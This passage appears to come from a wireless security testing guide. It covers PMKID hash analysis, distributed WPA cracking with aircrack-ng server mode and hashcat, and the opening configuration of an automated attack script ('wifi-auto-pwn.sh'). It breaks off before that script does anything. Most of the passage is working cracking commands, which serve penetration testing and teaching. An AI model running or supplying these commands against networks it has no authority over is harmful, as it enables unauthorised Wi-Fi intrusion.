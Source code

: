 #### PMKID Analysis

```bash
# Analyze captured PMKIDs
hcxpcapngtool --pmkid-only -o pmkid-only.hc22000 capture.pcapng

# Show PMKID information
hcxhashtool -i pmkid.hc22000 --info

# Filter by specific criteria
hcxhashtool -i pmkid.hc22000 --essid-list=targets.txt -o filtered-pmkid.hc22000
```

### Distributed Cracking

Scale cracking operations across multiple machines for increased performance.

#### Aircrack-ng Server Mode

```bash
# Server (powerful machine with capture)
sudo airserv-ng -p 666 -d 100 -c 6 wlan0mon

# Clients (connect from remote machines)
airodump-ng -i 192.168.1.100:666

# Distributed cracking
aircrack-ng -w part1.txt 192.168.1.100:666  # Client 1
aircrack-ng -w part2.txt 192.168.1.100:666  # Client 2
```

#### Hashcat Distributed Setup

```bash
# Split wordlist for distribution
split -l 1000000 huge-wordlist.txt wordlist-part-

# Distribute across multiple GPUs/machines
hashcat -m 22000 hash.hc22000 wordlist-part-aa &  # Process 1
hashcat -m 22000 hash.hc22000 wordlist-part-ab &  # Process 2
hashcat -m 22000 hash.hc22000 wordlist-part-ac &  # Process 3
```

### Automation and Scripting

#### Comprehensive Attack Automation

```bash
#!/bin/bash
# wifi-auto-pwn.sh - Automated wireless security testing

set -euo pipefail

# Configuration
INTERFACE="wlan0mon"
WORDLIST="/usr/share/wordlists/rockyou.txt"
RESULTS_DIR="./wifi-results-$(date +%Y%m%d-%H%M%S)"
SCAN_TIME=60
ATTACK_TIMEOUT=300

# Colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[0;33m'
NC='\033[0m' # No Color

```